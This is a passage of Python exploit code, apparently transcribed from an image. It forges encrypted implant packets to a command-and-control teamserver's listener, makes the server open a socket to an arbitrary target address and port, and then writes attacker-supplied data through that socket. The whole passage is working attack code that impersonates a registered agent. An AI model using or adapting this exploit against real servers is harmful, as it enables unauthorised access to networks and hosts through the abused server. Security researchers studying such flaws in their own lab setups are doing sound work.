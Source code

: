 ```
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"


    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to open socket on the teamserver...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")


def write_socket(socket_id, data):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print("[***] Trying to write to the socket")
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")
```